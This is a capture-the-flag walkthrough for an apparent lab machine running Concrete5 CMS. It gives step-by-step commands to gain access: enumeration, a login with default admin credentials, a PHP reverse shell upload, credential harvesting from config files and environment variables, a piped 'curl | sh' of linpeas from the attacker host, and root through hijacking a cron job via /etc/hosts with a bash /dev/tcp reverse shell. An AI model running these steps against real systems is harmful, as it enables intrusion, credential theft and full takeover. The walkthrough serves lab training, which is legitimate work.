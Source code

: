 # How to access the admin panel
Scan hte website using nmap:
<pre>nmap -sV VICTIM_IP_ADDRESS </pre>
Nmap reveals that port 85 is open:
![image](https://github.com/user-attachments/assets/d0e4f543-0a32-4e3a-9baf-21c18ce4db59)


After nmap, run gobuster. From the results, we find /app directory:
<pre>gobuster dir -u "http://VICTIM_IP_ADDRESS:85/" -w /usr/share/wordlists/dirb/small.txt -t 64</pre>
![Bez tytułu](https://github.com/user-attachments/assets/5cf1f095-12b2-4022-abd1-26df6afa62e9)

Click the "Jump" button, which triggers a redirect:
![image](https://github.com/user-attachments/assets/5a8c3552-8589-41f3-8828-bd6d1a132a19)

Further enumeration reveals a database.php file located in /config, which will be useful later:
![image](https://github.com/user-attachments/assets/366199be-a023-4fb6-9a7c-64de12f49556)

At the bottom of the page, there's information indicating that the site uses the Concrete5 CMS:
![image](https://github.com/user-attachments/assets/724469aa-2898-40f5-9a0c-3b57745afaa0)

Clicking the "Log in" button redirects to the login panel, which shows a standard admin login form. The default credentials are:
<pre>Username: admin</pre>
<pre>Password: password</pre>

<br><br>
# How to get a reverse shell
## On the victim machine
Go to System Settings → Files → Allowed File Types. Add php to the list of allowed file types:
![image](https://github.com/user-attachments/assets/9a76b22e-0758-4501-8a17-ca3c46b68cc1)

Create a shell.php file on the attacker's machine: https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php   
Upload a PHP reverse shell:
![image](https://github.com/user-attachments/assets/8c92daa3-47ef-423f-96d3-76a197717059)  

A popup window will show the path to the uploaded file:
<pre>http://VICTIM_IP_ADRESS:85/app/castle/application/files/6217/4308/6870/shell.php</pre>

## On the attacker machine
Start a listener:
<pre>nc -lvnp 4444</pre>

Go back to browser and in new tab go to:
<pre>http://VICTIM_IP_ADRESS:85/app/castle/application/files/6217/4308/6870/shell.php</pre>

Once the shell is triggered, upgrade the session:
<pre>python3 -c 'import pty; pty.spawn("/bin/bash")'</pre>  
![image](https://github.com/user-attachments/assets/9d5bac6d-1e00-4ef2-96ed-1b3a7aa1d1cc)

<br><br>
# Get User Credentials
Go back to the database.php file found during gobuster enumeration. It contains credentials for the toad user:
![image](https://github.com/user-attachments/assets/c177072f-b9d0-45c7-b119-4bcc48774eca)

Switch to that user:
<pre>su toad</pre>  
In the toad home directory, there's no user.txt or root.txt, but we can extract credentials for mario from the environment variables:
![image](https://github.com/user-attachments/assets/f467a7ab-fe55-4fb8-ad63-98154e493d70)
Use CyberChef to decode the Base64 password. The result: <pre>ikaTeNTANtES</pre>

Now log in as mario. Inside the mario directory, use less to read the user.txt flag:
![image](https://github.com/user-attachments/assets/0834e2fd-2a48-4ec2-a16a-f84c0b150d06)
Root access is required for the root.txt.
 
<br><br>
# How to get root
We’ll use:
1.	linpeas.sh: http://michalszalkowski.com/security/linpeas/
2.	Documentation: https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS

## On the attacker machine
Download linpeas.sh:
<pre>wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh chmod +x linpeas.sh</pre>

Start a local HTTP server:
<pre>sudo python3 -m http.server 9000</pre>

## On thevvictim machine
Download and run linpeas.sh:
<pre>curl <attacker_machine_ip_adress>/linpeas.sh | sh</pre>

During the scan we can see that /etc/hosts is writable.
![image](https://github.com/user-attachments/assets/9ec6d78b-bf12-4972-990f-988be268f138)

After checking all running processes and cron jobs, there is a cron job which executes with root privilege every minute: 
<pre>curl mkingdom.thm:85/app/castle/application/counter.sh</pre>pre>

To redirect mkingdom.thm to the attacker's IP:
<pre>echo "10.10.6.168   mkingdom.thm" >> /etc/hosts</pre>  

However, this alone doesn't work, because cron still resolves to 127.0.1.1:
![image](https://github.com/user-attachments/assets/db84ae46-3c58-4a6a-8c23-40b4bc6fa090)

The workaround is to overwrite the entire file manually:
<pre> cat << EOF > /tmp/hosts_fixed
127.0.0.1       localhost
127.0.0.1       backgroundimages.concrete5.org
127.0.0.1       www.concrete5.org
127.0.0.1       newsflow.concrete5.org

::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters

10.10.6.168     mkingdom.thm
EOF
</pre>

Copy custom /tmp/hosts_fixed file and overwrite the system’s /etc/hosts file with it.
<pre>cp /tmp/hosts_fixed /etc/hosts</pre>

As shown below, the cron job is configured to reach the attacker's machine:
![image](https://github.com/user-attachments/assets/466df7d9-9eba-4e64-8704-baf2c15270f8)

## On attacker machine
Create the folder structure:
<pre>mkdir -p app/castle/application
cd app/castle/application
</pre>

After that create counter.sh:
<pre>cat << EOF > counter.sh
#!/bin/bash
bash -i >& /dev/tcp/<attacker_machine_ip_address>/4444 0>&1
EOF
</pre>

Lastly change permission to executable:
<pre>chmod +x counter.sh</pre>

Full process:
![image](https://github.com/user-attachments/assets/bdcd3fc4-7ebe-40b0-9e55-fc67dca3001b)

In two separate terminals run:
<pre>python3 -m http.server 85</pre>
<pre>nc -lvnp 4444</pre>

Wait for cron to trigger:
![image](https://github.com/user-attachments/assets/f390b7ce-7501-4bf4-b7c8-bccf738083ad)
![image](https://github.com/user-attachments/assets/f734f8b5-5c6b-46cf-a38d-204315b04709)

Know we reverse shell as root:
![image](https://github.com/user-attachments/assets/d09eb426-53c8-4e87-81af-c42d098a7f0c)

Use less to check flag:
![image](https://github.com/user-attachments/assets/e03dee91-a4fe-4886-be92-681dbabda795)
